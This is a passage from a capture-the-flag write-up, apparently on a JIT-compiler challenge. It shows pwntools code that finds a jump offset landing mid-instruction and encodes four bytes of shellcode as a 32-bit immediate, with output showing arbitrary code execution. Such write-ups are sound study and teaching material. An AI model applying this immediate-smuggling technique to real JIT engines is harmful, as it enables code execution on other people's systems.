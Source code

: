 ```python

        if single_byte_value == 0x01:
            pwn.log.info("{} -> {} -> {}".format(i, hex(converted_value), hex(single_byte_value)))
            return i
    else:
        pwn.log.error("Jump instruction not found :(")
```
For instruction number 0, the perfect jump constant is 206.

Next we need to encode some arbitrary instructions into a number. Once again, python comes to the rescue:
```python
def encode_asm_as_imm32(instructions):
    shellcode = pwn.asm(instructions)

    # Pad out to 4 bytes.
    if len(shellcode) > 4:
        pwn.log.error("\"{}\" encodes to {} bytes, which cannot be encoded as a 32-bit integer, shorten it to 4 bytes or less.".format(instructions, len(shellcode)))
    four_byte_shellcode = shellcode.ljust(4, '\x00')

    return pwn.u32(four_byte_shellcode)
```

Combining this all together:
```python
jump_value = find_jump_value(0)
encoded_asm_constant = encode_asm_as_imm32("pop eax; pop ebx; pop ecx; pop edx")

print("JMP({})".format(jump_value))
print("MOV(A, {})".format(encoded_asm_constant))
```
```
JMP(206)
MOV(A, 1515805528)
```

And lastly, running this program through the debugger shows that we can indeed execute 4 bytes of arbitrary code.
![JMP(206) proof](/images/google19/jit/jmp_206_proof.png)
